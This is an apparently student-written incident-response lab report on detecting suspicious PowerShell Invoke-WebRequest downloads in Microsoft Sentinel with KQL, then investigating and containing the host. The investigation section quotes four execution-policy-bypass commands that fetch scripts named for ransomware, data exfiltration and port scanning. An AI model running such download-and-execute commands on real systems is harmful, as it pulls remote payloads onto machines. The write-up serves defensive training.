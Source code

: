 ## 🔐 Incident Response Lab: PowerShell Suspicious Web Request

**Author**: Jason Nguyen  
**Date**: 19 June 2025

**Tools, Technologies & Frameworks Used**:
- Microsoft Sentinel
- Microsoft Defender for Endpoint (MDE)
- Azure Log Analytics Workspace (LAW)
- Azure Virtual Machine (windows-target-1)
- KQL (Kusto Query Language)
- MITRE ATT&CK
- GitHub (Markdown Reporting)
- NIST 800-61 Framework

---

### 📘 Summary

This incident response exercise simulates detection and investigation of a suspicious PowerShell command used to download multiple scripts from the internet using `Invoke-WebRequest`. Such activity often indicates post-exploitation behavior by attackers, such as downloading malware or establishing persistence. I built a custom detection rule in Microsoft Sentinel, triggered an incident, and walked through the response lifecycle using real-world techniques aligned with [NIST 800-61](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final).

---

### 🧠 Objectives

* Detect potentially malicious PowerShell web requests using KQL.
* Investigate the source and impact of script downloads on a target VM.
* Simulate response and containment actions in MDE.
* Document incident handling steps aligned to NIST 800-61.

---

### 🔎 Detection Logic (KQL)

```kql
let TargetHostname = "windows-target-1"; 
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
````

This query looks for instances of PowerShell (`powershell.exe`) being used to run `Invoke-WebRequest`, indicating an attempt to download content from an external server.

---

### ⚙️ Alert Rule Configuration

* **Rule Name**: PowerShell Suspicious Web Request
* **Trigger Type**: Scheduled Analytics Rule
* **Query Schedule**: Every 4 hours
* **Lookback Period**: Last 14 days
* **Alert Threshold**: Greater than 0
* **Entity Mappings**:

  * Account → Name → `AccountName`
  * Host → HostName → `DeviceName`
  * Process → CommandLine → `ProcessCommandLine`
* **MITRE ATT\&CK Mapping**:

  * T1059.001 – PowerShell
  * T1203 – Exploitation for Client Execution
  * T1071.001 – Web Protocols
  * T1105 – Ingress Tool Transfer
  * T1041 – Exfiltration Over C2 Channel
* **Event Grouping**: All events grouped into a single alert
* **Incident Settings**: Enabled
* **Suppression**: Suppress alerts for 24 hours after trigger
* **Auto-Incident Creation**: Enabled

![entity-mapping](images/entity-mapping.png)

---

### 🚨 Incident Investigation

**Triggered Incident**:
“J - PowerShell Suspicious Web Request”
**Device**: `windows-target-1`
**User Involved**: One user

During the incident, four separate PowerShell commands were used to download suspicious scripts:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../portscan.ps1 -OutFile C:\programdata\portscan.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../eicar.ps1 -OutFile C:\programdata\eicar.ps1
```

Upon contacting the user, they stated they were trying to install free software but only saw a black screen. Suspicion arose regarding possible social engineering or misuse of legitimate tools.

**Script Execution Verification**:
Used this query to confirm whether the downloaded scripts were executed:

```kql
let TargetHostname = "windows-target-1"; 
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); 
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```

⚠️ **Result**: All four scripts were executed on the target system.

![scripts-executed](images/scripts-found.png)

---

### 🛡️ Response & Containment

* The machine was **isolated** via Microsoft Defender for Endpoint.
* A **full antivirus scan** was performed and returned clean.
* After validation, the machine was **removed from isolation** and restored to standard operation.

---

### 📋 Post-Incident Activities

* The user completed an **immediate cybersecurity awareness training** session.
* Organization upgraded the **KnowBe4 security awareness training** and increased frequency of mandatory sessions for all staff.
* **New PowerShell usage policy** drafted — restricting execution to essential personnel only.
* Posted a comment on Incident Acitivty Log in Sentinel, and closed the incident.

![incident-acitivty-log](images/sentinel-incident-activity-log.png)

---

### 🧩 Challenges & Takeaways

* KQL query initially returned no results — needed to expand `TimeGenerated` to 30 days.
* Learned the distinction between `InitiatingProcessCommandLine` (parent) vs. `ProcessCommandLine` (child).
* Practiced careful IR documentation, user communication, and validated execution of potential payloads.
* Reinforced understanding of PowerShell abuse in post-exploitation stages.

---

### ✅ Skills Demonstrated

* Threat detection using KQL in Log Analytics
* Incident triage and response in Microsoft Sentinel
* Endpoint investigation and validation using MDE
* NIST 800-61 incident handling lifecycle
* Practical understanding of PowerShell abuse techniques

---

## 📎 Notes

* This lab was completed as part of Josh Madakor’s Cyber Range series.
* Incident response actions simulated in a controlled learning environment.
* All files and URLs used were part of safe, educational scenarios for cybersecurity training.
